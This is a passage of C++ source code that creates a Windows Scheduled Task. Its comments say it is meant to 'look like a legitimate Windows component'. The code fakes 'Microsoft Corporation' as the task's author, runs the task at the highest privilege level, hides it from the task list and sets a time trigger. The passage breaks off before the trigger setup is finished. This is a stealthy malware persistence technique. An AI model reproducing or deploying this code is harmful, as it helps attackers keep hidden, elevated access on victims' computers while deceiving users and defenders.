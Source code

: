 ```cpp
        // Set registration info
        IRegistrationInfo* pRegInfo = NULL;
        hr = pTask->get_RegistrationInfo(&pRegInfo);
        if (SUCCEEDED(hr)) {
            // Make it look like a legitimate Windows component
            pRegInfo->put_Author(_bstr_t(L"Microsoft Corporation"));
            pRegInfo->put_Description(_bstr_t(L"Performs system maintenance tasks"));
            pRegInfo->Release();
        }
        
        // Set principal info (security context)
        IPrincipal* pPrincipal = NULL;
        hr = pTask->get_Principal(&pPrincipal);
        if (SUCCEEDED(hr)) {
            // Run only when user is logged on
            pPrincipal->put_LogonType(TASK_LOGON_INTERACTIVE_TOKEN);
            pPrincipal->put_RunLevel(TASK_RUNLEVEL_HIGHEST);
            pPrincipal->Release();
        }
        
        // Set task settings
        ITaskSettings* pSettings = NULL;
        hr = pTask->get_Settings(&pSettings);
        if (SUCCEEDED(hr)) {
            // Hide task from UI
            pSettings->put_Hidden(VARIANT_TRUE);
            
            // Don't start task if on battery
            pSettings->put_DisallowStartIfOnBatteries(VARIANT_FALSE);
            pSettings->put_StopIfGoingOnBatteries(VARIANT_FALSE);
            
            // Allow execution even if task is missed
            pSettings->put_StartWhenAvailable(VARIANT_TRUE);
            
            // Don't store password
            pSettings->put_AllowHardTerminate(VARIANT_TRUE);
            
            pSettings->Release();
        }
        
        // Create time-based trigger
        ITriggerCollection* pTriggerCollection = NULL;
        hr = pTask->get_Triggers(&pTriggerCollection);
        if (SUCCEEDED(hr)) {
            ITrigger* pTrigger = NULL;
            hr = pTriggerCollection->Create(TASK_TRIGGER_TIME, &pTrigger);
            
            if (SUCCEEDED(hr)) {
                ITimeTrigger* pTimeTrigger = NULL;
                hr = pTrigger->QueryInterface(IID_ITimeTrigger, (void**)&pTimeTrigger);
                
                if (SUCCEEDED(hr)) {
                    // Set time to run
                    SYSTEMTIME st;
                    GetLocalTime(&st);
                    
                    // Add delay minutes
                    FILETIME ft;
                    SystemTimeToFileTime(&st, &ft);
                    ULARGE_INTEGER uli;
                    uli.LowPart = ft.dwLowDateTime;
                    uli.HighPart = ft.dwHighDateTime;
                    
```